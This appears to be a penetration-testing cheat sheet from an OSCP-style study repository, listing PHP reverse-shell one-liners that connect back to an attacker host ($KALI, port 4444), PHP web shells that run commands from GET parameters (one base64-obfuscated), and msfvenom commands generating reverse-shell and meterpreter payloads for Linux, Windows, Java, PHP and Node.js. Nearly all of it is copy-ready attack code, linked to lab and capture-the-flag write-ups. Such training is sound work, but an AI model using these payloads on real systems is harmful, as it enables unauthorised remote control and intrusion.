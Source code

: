 #### PHP

|   |   |
|---|---|
|Using `exec` is the most common method, but assumes that the file descriptor will be 3<br>Using this method may lead to instances where the **connection reaches out to the listener and then closes**|`php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`|
|Using `proc_open` makes no assumptions about what the file descriptor will be<br>See <https://security.stackexchange.com/a/198944> for more information|`<?php $sock=fsockopen("$KALI",4444);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>`|
|Using `exec` to call a `bash` reverse shell|`<?php exec("/bin/bash -c 'bash -i >/dev/tcp/$KALI/4444 0>&1'"); ?>`|
|Using `system` to call a `bash` reverse shell|`<?php system("/bin/bash -c 'bash -i >/dev/tcp/$KALI/4444 0>&1'"); ?>`|
|Using `passthru` to call a `bash` reverse shell|`<?php passthru("/bin/bash -c 'bash -i >/dev/tcp/$KALI/4444 0>&1'"); ?>`|
|In some cases above doesn't work (e.g. [gh0st](https://github.com/joetanx/oscp/blob/main/pwk-lab/gh0st.md)), copy from this and change the IP/port|`/usr/share/webshells/php/php-reverse-shell.php`|

> [!Tip]
> 
> To use PHP reverse shell on RFI, save the file on Kali as `.txt`, not `.php`; otherwise, it will be Kali that is connecting to itself
> 
> Sometimes `exec` or `system` may not work, try other methods (`passthru`) of php execution (as seen in [PAIN](https://github.com/joetanx/oscp/blob/main/pwk-lab/pain.md))

Examples: [digitalworld.local-bravery](https://github.com/joetanx/oscp/blob/main/vulnhub/digitalworld.local-bravery.md), [SAR](https://github.com/joetanx/oscp/blob/main/vulnhub/sar.md), [PAIN](https://github.com/joetanx/oscp/blob/main/pwk-lab/pain.md)

#### PHP web shells

|   |   |
|---|---|
|`<?php echo passthru($_GET['k']);?>`|[Used in: ITSL:Dealer 313](https://github.com/joetanx/oscp/blob/main/itsl/2021-10-24-Dealer313.md)|
|`<?php system($_GET[base64_decode('Y21k')]);?>`|[Used in: ITSL:VulnDC2](https://github.com/joetanx/oscp/blob/main/itsl/2022-01-17-Vulndc2.md)|
|`<?php system($_GET['cmd']);?>`|[Used in: Flight](/htb/flight.md)|
|`<?php echo passthru($_GET['cmd']); ?>`|[Used in: digitalworld.local:JOY](https://github.com/joetanx/oscp/blob/main/vulnhub/digitalworld.local-joy.md)|

### 4.3. Payloads

#### MSFVenom reverse shell TCP:

|   |   |
|---|---|
|Linux (Python)|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f py -o /var/www/html/reverse.py`|
|Linux (ELF)|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f elf -o /var/www/html/reverse.elf`|
|Linux (meterpreter)|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=4444 -f elf -o /var/www/html/reverse.elf`|
|Windows PE|`msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f exe -o /var/www/html/reverse.exe`|
|Windows Powershell|`msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f psh -o /var/www/html/reverse.ps1`|
|Windows meterpreter|`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=4444 -f exe -o /var/www/html/reverse.exe`|
|HTML Application|`msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`|
|VBA|`msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f vba-psh -o /var/www/html/reverse.vba`|
|Java WAR (Tomcat)|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=4444 -f war -o reverse.war`|
|PHP|`msfvenom -p php/reverse_php LHOST=$KALI LPORT=4444 -f raw -o reverse.php`|
|Node.js|`msfvenom -p nodejs/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f js_le -o reverse.js`|
